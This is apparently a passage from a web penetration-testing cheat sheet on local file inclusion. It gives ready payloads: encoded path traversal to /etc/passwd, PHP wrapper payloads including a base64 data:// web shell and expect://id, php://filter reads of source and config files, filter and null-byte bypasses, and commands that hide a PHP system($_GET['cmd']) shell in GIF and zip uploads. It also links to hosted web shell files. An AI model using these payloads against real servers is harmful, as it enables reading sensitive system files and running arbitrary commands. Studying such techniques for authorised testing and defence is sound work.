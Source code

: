 #### Block . and / - Bypass

- urlencode and Double urlencode /etc/passwd  

```
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

#### PHP Wrappers

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id  
expect://id  
php://filter/read=convert.base64-encode/resource=index.php  
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

#### Filter PHP

- Predefined Paths  
preg_match('/^\.\/okay\/.+$/', $_GET['file'])  

```
./okay/../../../../etc/passwd
```  

#### PHP Extension Bypass with Null Bytes

```
https://site.com/index.php?file=/etc/passwd%00.php
```  

- Removing .php  

```
https://site.com/index.php?file=index.p.phphp
```  
  
#### LFI + File Upload

- gif

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > ok.gif
```

https://github.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/blob/main/codes/webshells/shell.gif  

- Zip

```
echo '<?php system($_GET["cmd"]); ?>' > ok.php && zip wshell_zip.jpg ok.php
```

```
http://ip/index.php?file=zip://./uploads/wshell_zip.jpg%23ok.php&cmd=id  
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/wshell_zip.jpg 
```

